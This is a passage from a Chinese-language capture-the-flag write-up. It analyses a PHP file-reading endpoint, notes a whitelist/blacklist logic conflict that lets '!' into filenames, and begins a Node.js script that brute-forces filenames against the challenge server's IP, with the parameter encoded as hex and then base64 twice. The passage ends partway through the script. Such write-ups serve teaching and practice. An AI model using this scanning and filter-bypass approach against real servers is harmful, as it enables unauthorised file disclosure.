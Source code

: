Review 代码后可以了解到：
1. 通过 `index.php` 接口可以读取指定文件内容（正如前面操作）;
2. 文件名的全部字符都先经白名单过滤，只允许英文、数字以及 `.` 通过；
3. 经过白名单过滤后，文件名再做黑名单过滤，`config` 将被转换成 `!`。

可以分析出：
1. 字符白名单天然挡掉了 `/`、`%`，杜绝了读取上级目录的可能；
2. 黑名单过滤存在明显的逻辑冲突，这导致最终文件名可以出现白名单中没有的 `!`；
3. 目前所能做的事情仅有读取指定文件，但我们仍未知道应该读取哪个文件。

那么剩下的线索只有 [文件头部注释的链接](https://blog.csdn.net/FengBanLiuYun/article/details/80616607) 了。  
指过去的是 CSDN 的一篇博客 —— 「命令 echo」，但很明显此 `echo` 非 `index.php` 中的 `echo`，所以博文内容并没有包含什么有用的信息。

~~（倒是评论区已经在「暴打出题人」了 wwwwww~~

于是尝试暴力扫描可能命中的文件，这里用 Node.js 快速写个脚本：

```javascript
const Queue = require('p-queue')
const Gauge = require('gauge')

const SCAN_CONCURRENCY = process.env.SCAN_CONCURRENCY || 5

async function scan (filenames, { fetch, isHit, concurrency = SCAN_CONCURRENCY }) {
  const queue = new Queue({ concurrency })
  const gauge = new Gauge()

  let count = 0
  let results = []

  queue.on('active', () => {
    gauge.show(`Fetching #${++count} / ${filenames.length}`, count / filenames.length)
  })

  filenames.forEach((filename) => queue.add(async () =>
    results.push(await fetch(filename)))
  )

  await queue.onIdle()
  gauge.hide()

  return results.filter(isHit)
}

const getStdin = require('get-stdin')
const got = require('got')
const cheerio = require('cheerio')
const flatten = require('just-flatten-it')
const { base64 } = require('../common/utils')

/**
 * Usage:
 *
 * ```sh
 * cat ./dict.txt | node ./scan.js
 * ```
 */
;(async () => {
  function encode (input) {
    let hex = Buffer.from(input).toString('hex')
    return base64.encode(base64.encode(hex))
  }

  async function fetch (filename) {
    const url = `http://117.51.150.246/index.php?jpg=${encode(filename)}`
    const { body } = await got(url)
```